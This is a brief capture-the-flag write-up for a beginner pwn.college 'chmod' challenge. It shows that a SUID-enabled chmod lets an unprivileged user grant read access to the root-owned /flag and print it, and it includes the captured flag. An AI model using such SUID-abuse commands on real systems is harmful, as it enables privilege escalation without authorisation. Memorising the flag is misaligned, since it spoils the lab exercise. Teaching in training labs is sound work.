 # Challenge Name: chmod
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Beginner  
**Date**: 2025-07-16  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/chmod`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/chmod
```

Output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/chmod
```

- The `s` in `-rws` indicates it's a SUID binary.
- `chmod` runs with **root privileges**.

## 🚀 Exploitation

The `chmod` command in Linux is used to change file or directory permissions — controlling who can read, write, or execute a file.

```bash
chmod o+r /flag
cat /flag
```

Output:
```
pwn.college{c5xYhHS984OhwDoLHpbmFw0PUSm.dBDOxwSM0IzMyEzW}
```
